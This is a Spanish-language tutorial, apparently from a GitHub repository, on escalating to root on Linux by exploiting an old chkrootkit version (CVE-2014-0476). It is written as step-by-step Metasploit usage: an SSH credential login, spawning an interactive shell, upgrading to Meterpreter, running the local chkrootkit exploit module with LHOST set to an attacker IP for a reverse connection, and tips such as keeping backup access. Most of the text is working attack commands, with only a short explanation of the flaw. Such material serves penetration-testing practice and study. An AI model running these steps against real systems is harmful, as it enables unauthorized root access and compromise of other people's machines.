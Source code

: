 # Escalada de privilegios en Linux explotando programas vulnerables (chkrootkit)

## 1. Objetivo
Explotar un programa instalado en un sistema Linux que contenga una vulnerabilidad conocida para obtener privilegios de root.

En este ejemplo, se utiliza **chkrootkit** como caso práctico.

---

## 2. Flujo de trabajo

### Paso 1: Acceso inicial por SSH con Metasploit
Entramos con un usuario válido en la máquina víctima:
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <IP>
set USERNAME <usuario>
set PASSWORD <contraseña>
exploit
```
Esto nos da una sesión de shell en Metasploit.

---

### Paso 2: Obtener una shell interactiva
En la sesión:
```bash
/bin/bash -i
```
Con esto obtenemos una shell interactiva para ejecutar comandos más cómodamente.

---

### Paso 3: Recolectar información básica del sistema
```bash
cat /etc/*issue
uname -r
```
- `/etc/*issue` → Muestra la distribución y versión de Linux.
- `uname -r` → Muestra la versión del kernel.

Esto nos ayuda a identificar posibles vectores de explotación.

---

### Paso 4: Mejorar la sesión a Meterpreter
Mandamos la sesión al background:
```bash
background
```
Mejoramos a Meterpreter:
```bash
sessions -u 1
```
- `1` es el ID de la sesión actual.

---

### Paso 5: Revisar procesos y binarios
En la sesión Meterpreter:
```bash
ps aux
cat /bin/check-down
```
Esto nos permite inspeccionar scripts o binarios ejecutados por root.

---

### Paso 6: Identificar uso de chkrootkit
Si vemos que `/bin/check-down` llama a `chkrootkit`, verificamos su versión:
```bash
chkrootkit --help
chkrootkit -V
```

**Versiones vulnerables conocidas**:
- 0.49 y anteriores → Vulnerables a ejecución arbitraria de comandos como root.
- Existen vulnerabilidades específicas como **CVE-2014-0476**.

---

### Paso 7: Localizar módulo de explotación en Metasploit
Mandamos la sesión al background:
```bash
background
```
Buscamos el exploit:
```bash
search chkrootkit
```
Usamos el módulo:
```bash
use exploit/unix/local/chkrootkit
```

---

### Paso 8: Configurar el exploit
```bash
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST <IP_atacante>
exploit
```
- `CHKROOTKIT` → Ruta del binario vulnerable.
- `SESSION` → ID de la sesión donde se explotará.
- `LHOST` → IP del atacante para recibir la conexión.

---

## 3. ¿Por qué funciona esta escalada?
`chkrootkit` en versiones antiguas ejecuta comandos desde directorios temporales sin saneo de entradas, lo que permite inyectar código que se ejecutará con privilegios de root.

---

## 4. Resumen de comandos clave
```bash
/bin/bash -i
cat /etc/*issue
uname -r
sessions -u 1
ps aux
cat /bin/check-down
chkrootkit --help
chkrootkit -V
search chkrootkit
use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST <IP>
exploit
```

---

## 5. Recomendaciones
- Siempre verificar versión y ubicación del binario antes de explotar.
- Confirmar que el proceso es ejecutado por root.
- Mantener un acceso de backup antes de lanzar el exploit.
